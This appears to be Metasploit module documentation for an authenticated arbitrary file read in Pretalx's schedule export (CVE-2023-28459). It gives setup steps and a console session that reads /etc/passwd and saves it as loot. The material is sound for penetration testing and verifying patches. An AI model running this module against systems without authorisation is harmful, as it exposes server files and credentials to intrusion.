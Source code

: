 ## Description

This module exploits functionality in Pretalx that export conference schedule as zipped file. The Pretalx will iteratively include any file referenced by any HTML tag and does not properly check the path of the file, which can lead to arbitrary file read. The module requires crendetials that allow schedule export, schedule release and approval of proposals. Additionaly, module requires conference name and URL for media files.

## Vulnerable Application
Pretalx is an open-source conference scheduling tool that allows organizers to manage event schedules, speakers, and submissions.

The vulnerability exploited by this module exists in Pretalx versions up to 2.3.1, where the export functionality of conference schedules as zipped files improperly handles paths in HTML tags. This allows an authenticated user with proper permissions to read arbitrary files on the server by referencing them in exported schedules.

Vulnerable versions: Pretalx ≤ 2.3.1

Vulnerability: Arbitrary file read through schedule export

Source code: https://github.com/pretalx/pretalx

Exploit requires: Valid credentials with permissions to export schedules, release schedules, and approve proposals.

More info: CVE-2023-28459

## Verification Steps
1. Install a vulnerable Pretalx instance (version ≤ 2.3.1). You can follow the official installation guide: https://docs.pretalx.org/en/latest/install/

2. Start msfconsole.

3. Load the module with:

```
use auxiliary/scanner/http/pretalx_file_read
```
4. Set required options:
```
set RHOSTS <target_ip>
set USERNAME <valid_username>
set PASSWORD <valid_password>
set CONFERENCE_NAME <conference_slug>
set FILEPATH /etc/passwd
set MEDIA_URL /media
```
5. Run the module:
```
run
```
On success, the module will store the contents of the targeted file as loot.

## Scenarios
```
msf6 > use auxiliary/scanner/http/pretalx_file_read
msf6 auxiliary(scanner/http/pretalx_file_read) > set RHOSTS 192.168.1.10
msf6 auxiliary(scanner/http/pretalx_file_read) > set USERNAME admin
msf6 auxiliary(scanner/http/pretalx_file_read) > set PASSWORD password123
msf6 auxiliary(scanner/http/pretalx_file_read) > set CONFERENCE_NAME myconf
msf6 auxiliary(scanner/http/pretalx_file_read) > set FILEPATH /etc/passwd
msf6 auxiliary(scanner/http/pretalx_file_read) > run
[+] Stored results in /path/to/.msf4/loot/...
```
